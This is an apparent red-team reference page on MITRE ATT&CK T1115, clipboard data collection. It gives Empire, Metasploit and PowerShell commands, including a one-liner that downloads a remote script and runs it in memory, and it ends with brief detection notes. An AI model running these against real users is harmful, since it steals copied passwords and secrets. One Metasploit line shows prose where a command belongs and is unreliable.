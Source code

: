 ```yaml
---
description: https://attack.mitre.org/techniques/T1115/
---
```


# Clipboard Data

**ATT\&CK ID:** [T1115](https://attack.mitre.org/techniques/T1115/)

**Permissions Required:** <mark style="color:green;">**User**</mark>

**Description**

Adversaries may collect data stored in the clipboard from users copying information within or between applications.

In Windows, Applications can access clipboard data by using the Windows API.

\[[Source](https://attack.mitre.org/techniques/T1115/)]

## Techniques

### Empire

This module monitors the clipboard on a specified interval for changes to copied\
text.

```
usemodule powershell/collection/clipboard_monitor
```

![](../../../.gitbook/assets/Empire-Clipboard.png)

### Get-ClipboardContents

`Get-ClipboardContents` monitors for information currently in the clipboard and anything that may be copied to the clipboard for the duration of the scripts execution time.

```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```

![](../../../.gitbook/assets/Get-ClipboardContents.png)

### Metasploit

This Metasploit module can be loaded from the meterpreter shell.

```bash
load extapi

# Read the target's current clipboard (text, files, images)
clipboard_get_data

# Dump all captured clipboard content
clipboard_monitor_dump

# Pause the active clipboard monitor
clipboard_monitor_pause

# Delete all captured clipboard content without dumping it
clipboard_monitor_purge

# Resume the paused clipboard monitor
clipboard_monitor_resume

# Start the clipboard monitor   
Start the clipboard monitor

# Stop the clipboard monitor   
clipboard_monitor_stop

# Write text to the target's clipboard    
clipboard_set_text
```

### PowerShell

The native PowerShell command `Get-Clipboard` retrieves information that is currently stored in the clipboard.

```powershell
Get-Clipboard
```

![](../../../.gitbook/assets/PS-Get-Clipboard.png)

## Mitigations

* Monitor executed commands and arguments to collect data stored in the clipboard from users copying information within or between applications.
* Monitor API calls that could collect data stored in the clipboard from users copying information within or between applications.
